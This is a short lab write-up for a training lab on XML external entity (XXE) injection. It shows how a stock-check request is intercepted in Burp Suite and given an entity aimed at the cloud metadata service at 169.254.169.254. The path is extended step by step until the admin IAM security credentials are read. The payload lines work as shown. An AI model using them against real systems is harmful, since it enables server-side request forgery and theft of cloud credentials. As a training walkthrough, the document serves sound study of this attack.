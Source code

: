 ```yaml
---
custom_edit_url: null
sidebar_position: 2
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/1e344e8d-1ff6-42d1-87a4-f25d25fba282)

Let's check the stock of one of the products.

![2](https://github.com/Knign/Write-ups/assets/110326359/0727cb0b-7aa8-489c-b3b0-e398f1511b2d)

Since we are proxying the requests through Burp Suite, we can go to `Proxy > HTTP History` to view the request.

![3](https://github.com/Knign/Write-ups/assets/110326359/e8793e33-ef0d-4425-8721-f0c9cf59897e)

We can see that the request contains an XML entity.

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater` tab, declare the following internal entity after the XML prologue:

```
<!DOCTYPE test 
[<!ENTITY test SYSTEM "http://169.254.169.254/">]
>
```

![4](https://github.com/Knign/Write-ups/assets/110326359/24d6bb47-0efd-4d29-8d0d-43bc7cf3f83a)

Let's add the `latest` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/">]
```

![5](https://github.com/Knign/Write-ups/assets/110326359/0dacb303-a3b2-43d7-9d88-5e7a28944bcd)

Let's add the `meta-data` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/">]
```

![6](https://github.com/Knign/Write-ups/assets/110326359/3f5f77bf-c17d-4739-8184-e086aaa8b97b)

Let's add the `iam` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/">]
```

![7](https://github.com/Knign/Write-ups/assets/110326359/a83f8f79-75d0-47b1-8880-0ad6b0ed07ce)

Let's add the `credentials` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">]
```

![8](https://github.com/Knign/Write-ups/assets/110326359/cea0c7ba-ce0f-4f36-989f-16c969db0565)

Let's add the `admin` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/">]
```

![9](https://github.com/Knign/Write-ups/assets/110326359/d1a73db1-dab4-4fcb-87df-321525a4bf42)

We have solved the lab.

![10](https://github.com/Knign/Write-ups/assets/110326359/cbc85714-d4d5-46dc-b7f0-0c09822d6b2c)
